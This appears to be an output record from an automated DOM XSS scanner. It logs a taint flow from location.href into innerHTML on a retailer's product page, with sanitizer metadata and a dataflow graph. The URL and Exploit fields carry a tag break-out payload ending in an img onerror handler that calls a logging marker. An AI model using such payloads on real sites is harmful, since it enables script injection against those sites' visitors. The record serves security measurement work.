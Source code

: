 // Finding: 010006c1-0a70-4897-883f-fcccf3ea1980
// Finding.url: https://www.example121.com/unitedstates/us/headsets/cloud-gaming-headset?partnum=HHSC2X-BA-RD/G##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('22db4f039acb4bec94bd1a8d7fde7487')><!--/*
// Finding.parentloc: https://www.example121.com/unitedstates/us/headsets/cloud-gaming-headset?partnum=HHSC2X-BA-RD/G##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('22db4f039acb4bec94bd1a8d7fde7487')><!--/*
// Finding.domain: www.example121.com
// Finding.base_domain: example121.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 3
// Sanitizer.name: Replace
// Sanitizer.location: https://www.example121.com/Modules/FootNote/Scripts/Footnote.min.js?_=6.6.0.1 - Replace:1:155
// Finding.begin: 265311
// Finding.end: 265331
// Finding.original_uuid: 97db91e5-d86a-4023-b0ae-710acc47b9d5
// Finding.TwentyFiveMillionFlowsId: -1077732652
// Finding.script: https://www.example121.com/Scripts/jquery-3.4.1.min.js?_=3.4.1
// Finding.line: 2
// Exploit.uuid: 22db4f03-9acb-4bec-94bd-1a8d7fde7487
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: "
// Exploit.tag: iframe
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 6
// Exploit.replace_begin_url: 97
// Exploit.replace_end_url: 97
// Exploit.replace_begin_param: 187507
// Exploit.replace_end_param: 187507
// Issues.LargestEncodeAttrStringChain: 4
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -771054047
// DepGraph.sanitizer_hash: 1529320527
// Large chain of EncodeAttrString Operations (4) 
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="strtolower"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="regex_exec"];
n4 [shape=box, label="RegExp: /^((http:|https:|file:|chrome\-extension:|chrome:)\/\/([^:\/\s]+)(:\d+)*)/"];
n5 [shape=box, label="Lit: 3"];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="regex_match"];
n8 [shape=box, label="RegExp: /^((http:|https:|file:|chrome\-extension:|chrome:)\/\/([^:\/\s]+)(:\d+)*)/"];
n9 [shape=box, label="Lit: 3"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="encodeURIComponent"];
n12 [shape=box, label="Var: x"];
n13 [shape=ellipse, label="."];
n14 [shape=box, label="Lit: stripe_xdm_e="];
n15 [shape=ellipse, label="."];
n16 [shape=box, label="Lit: &"];
n17 [shape=ellipse, label="."];
n18 [shape=box, label="Lit: &"];
n19 [shape=ellipse, label="."];
n20 [shape=box, label="Lit: https://js.stripe.com/v2/channel.html?"];
n21 [shape=ellipse, label="."];
n22 [shape=box, label="Lit: #__stripe_transport__"];
n23 [shape=ellipse, label="encodeAttrString"];
n24 [shape=box, label="Var: x"];
n25 [shape=ellipse, label="."];
n26 [shape=box, label="Lit: <div>"];
n27 [shape=ellipse, label="."];
n28 [shape=box, label="Lit: </div>"];
n29 [shape=box, label="Var: x"];
n30 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n6 -> n1;
n3 -> n4;
n3 -> n5;
n3 -> n6;
n10 -> n3;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n12 -> n7;
n11 -> n12;
n13 -> n14;
n13 -> n11;
n15 -> n16;
n15 -> n13;
n17 -> n15;
n17 -> n18;
n19 -> n20;
n19 -> n17;
n21 -> n19;
n21 -> n22;
n24 -> n21;
n23 -> n24;
n25 -> n26;
n25 -> n23;
n27 -> n25;
n27 -> n28;
n29 -> n27;
n30 -> n29;
}